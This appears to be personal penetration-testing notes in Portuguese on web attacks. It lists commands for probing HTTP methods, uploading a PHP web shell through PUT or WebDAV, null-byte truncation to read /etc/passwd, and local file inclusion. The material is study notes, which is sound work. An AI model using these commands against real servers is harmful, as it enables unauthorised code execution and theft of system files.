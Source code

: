 nmap
```
nmap -p <HTTP_PORT> --script http-methods <TARGET_IP>
```

**curl**
```
curl -v -X options <URL>
```
metodos com curl
```
curl -X PUT <URL/teste.php>
curl -X PUT <URL/teste.php> -d "<?php system('id');?>"
curl [-v] <URL> --upload-file shell.php
curl -X DELETE <URL/teste.php>
```

netcat:
```
nc -v <IP> <PORT> -C
PUT /webdav/teste.php HTTP/1.1
Host: <IP>
```

### WEBDAV
é um conjunto de extensões para o protocolo HTTP que permite que os usuários gerenciem arquivos em servidores remotos

utilitário para estabelecer conexão com webdav
```
cadaver <URL>
```
testa os métodos http e envia arquivos para o servidor
```
davtest --url <URL>
```


## null byte poisoning
caso o servidor adicione `.php` automaticamente ao final de `file`, o null byte (`%00`) interrompe o processamento da string, resultando na tentativa de carregar o arquivo `/etc/passwd` diretamente, ignorando a extensão.
```
GET /index.php?file=/etc/passwd%00 HTTP/1.1
```

## Local File Inclusion (LFI)
- payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md

infecção de logs com LFI/php
FALTA FAZER (testar no 172.16.1.10)

path com wordlists com payloads de LFI
```
/usr/share/seclists/Fuzzing/LFI/
```
